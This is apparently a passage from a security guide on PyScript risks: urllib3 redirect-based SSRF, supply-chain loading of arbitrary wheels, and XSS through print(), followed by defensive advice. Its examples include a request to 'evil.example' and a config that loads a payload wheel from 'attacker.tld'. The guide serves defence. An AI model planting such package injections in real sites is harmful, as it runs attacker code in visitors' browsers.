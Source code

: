 ```
---

## New vulnerabilities & techniques (2023-2025)

### Server-Side Request Forgery via uncontrolled redirects (CVE-2025-50182)

`urllib3 < 2.5.0` ignores the `redirect` and `retries` parameters when it is executed **inside the Pyodide runtime** that ships with PyScript. When an attacker can influence target URLs, they may force the Python code to follow cross-domain redirects even when the developer explicitly disabled them ‑ effectively bypassing anti-SSRF logic.

```html
<script type="py">
import urllib3
http = urllib3.PoolManager(retries=False, redirect=False)  # supposed to block redirects
r = http.request("GET", "https://evil.example/302")      # will STILL follow the 302
print(r.status, r.url)
</script>
```
```
Patched in `urllib3 2.5.0` – upgrade the package in your PyScript image or pin a safe version in `packages = ["urllib3>=2.5.0"]`. See the official CVE entry for details.

### Arbitrary package loading & supply-chain attacks

Since PyScript allows arbitrary URLs in the `packages` list, a malicious actor who can modify or inject configuration can execute **fully arbitrary Python** in the victim’s browser:

```html
<py-config>
packages = ["https://attacker.tld/payload-0.0.1-py3-none-any.whl"]
</py-config>
<script type="py">
import payload  # executes attacker-controlled code during installation
</script>
```
```
*Only pure-Python wheels are required – no WebAssembly compilation step is needed.* Make sure configuration is not user-controlled and host trusted wheels on your own domain with HTTPS & SRI hashes.

### Output sanitisation changes (2023+)

* `print()` still injects raw HTML and is therefore XSS-prone (examples above).
* The newer `display()` helper **escapes HTML by default** – raw markup must be wrapped in `pyscript.HTML()`.

```python
from pyscript import display, HTML

display("**escaped**")          # renders literally

display(HTML("**not\-escaped**")) # executes as HTML -> potential XSS if untrusted
```
```
This behaviour was introduced in 2023 and is documented in the official Built-ins guide. Rely on `display()` for untrusted input and avoid calling `print()` directly.

---

## Defensive Best Practices

* **Keep packages up to date** – upgrade to `urllib3 >= 2.5.0` and regularly rebuild wheels that ship with the site.
* **Restrict package sources** – only reference PyPI names or same-origin URLs, ideally protected with Sub-resource Integrity (SRI).
```